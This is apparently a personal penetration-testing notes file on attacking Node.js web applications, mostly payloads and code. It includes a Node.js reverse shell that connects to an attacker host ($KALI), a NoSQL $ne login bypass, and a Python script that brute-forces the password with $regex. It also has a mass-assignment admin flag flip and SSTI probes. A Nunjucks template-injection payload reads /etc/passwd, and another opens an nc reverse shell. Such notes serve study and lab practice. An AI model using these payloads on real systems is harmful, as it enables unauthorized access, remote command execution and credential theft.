 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Enumeration

Capture url request in BurpSuite:

![[Pasted image 20220228102713.png]]
Take a look at /api/users

Take the list of users, and a short list of passwords, and attack the login request.

Look for something that would need elevated privilges, like /api/settings.

```
{"color-theme":"light","lang":"en","admin":false}
```

Change admin value to true:

```
{"color-theme":"dark","admin":true}
```


#### Node.js (Express middleware)
Below we're able to test this input box by adding 1 + 1
![[Pasted image 20220304092318.png]]

and seeing the result of "2".
![[Pasted image 20220304092332.png]]

Let's try something more complicated:

```node - kali
(function(){
   return 2+2;
})();
```

![[Pasted image 20220304092443.png]]

and we see this also works
![[Pasted image 20220304092547.png]]

```node - kali
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "$KALI", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

![[rlwrap]]

#### NodeBlog
Details on $ne
https://docs.mongodb.com/manual/reference/operator/query/ne/

```
http://$TARGET:5000/login
```

Capture in Burp, change Content-Type to json:

```BurpSuite - kali
Content-Type: application/json
```

Change the data body to json format:

```BurpSuite - kali
{"user":"admin","password":"admin"}
```

Send, notice we still get invalid password.  If we modify the username, we get invalid username, working as intended.

```BurpSuite - kali
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```

```bash - kali
mousepad login.py
```

```python - kali
import requests
import json
import string
import sys


def login(pw):
	payload = '{ "$regex":"%s"}' % pw
	data = {"user":"admin", "password": json.loads(payload)}
	r=requests.post("http://$TARGET:5000/login",json=data)
	if "Invalid Password" in r.text:
		return False
	return True

password = '^'
stop = False
while stop == False:
	for i in string.ascii_letters:
		sys.stdout.write(f"\r{password}{i}")
		if login(f"{password}{i}"):
			password += i
			if login(f"{password}$"):
				sys.stdout.write(f"\r{password}\r\n")
				sys.stdout.flush()
				stop=True
				break
			break
```

#### Command injection

First, we notice how the our input for the newsletter is reflected back to us.

![[Pasted image 20221115132135.png]]

Test for command injection

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

![[Pasted image 20221115132357.png]]

Capture in Burp, send to repeater.

#### Node JS command Injection
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks

POC:
```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}
```

Final payload:
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@example.domain"
}
```

![[rlwrap]]

Reverse Shell
```
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $KALI 443 >/tmp/f')\")()}}@example.domain"
}
```

#### package.json
If found, evaluate for vulnerable dependencies.  Maybe this is something we can combine with Dependency-Check?!

![[Pasted image 20220905142745.png]]





